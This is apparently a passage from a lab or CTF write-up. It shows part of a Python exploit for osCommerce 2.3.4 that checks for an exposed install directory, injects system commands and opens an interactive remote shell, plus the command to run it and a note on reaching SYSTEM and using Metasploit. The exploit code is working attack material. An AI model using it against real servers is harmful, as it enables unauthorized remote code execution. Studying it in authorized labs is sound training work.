 ```python
				print(commandRsl[i])
		else:
			return '[!] Configure.php not found'

				
	else:
		return '[!] Fail to inject payload'



#testing vulnerability accessing the directory
test = requests.get(testVulnUrl)

#checking the install directory still exist or able to access or not
if(test.status_code == 200):
	print('[*] Install directory still available, the host likely vulnerable to the exploit.')
	
	#testing system command injection
	print('[*] Testing injecting system command to test vulnerability')
	cmd = 'whoami'

	print('User: ', end='')
	err = rce(cmd)

	if(err != None):
		print(err)
		sys.exit(0)

	while(True):
		cmd = input('RCE_SHELL$ ')
		err = rce(cmd)

		if(err != None):
			print(err)
			sys.exit(0)

else:
	print('[!] Install directory not found, the host is not vulnerable')
	sys.exit(0)
```

- This is the syntax that we will need to use to run the script properly:
```python
python3 exploit.py http://target-ip:8080/oscommerce-2.3.4/catalog
```

- We now have shell on the system and are currently the `nt authority/system` user. Now this works, but I haven't been able to traverse directories or escalate privileges. After some research and a little help from the walkthrough, I found that Metasploit has a module that can do something similar, but can provide a meterpreter shell, allowing for more functionality, which, in turn, can allow us to do more enumeration and privilege escalation. 
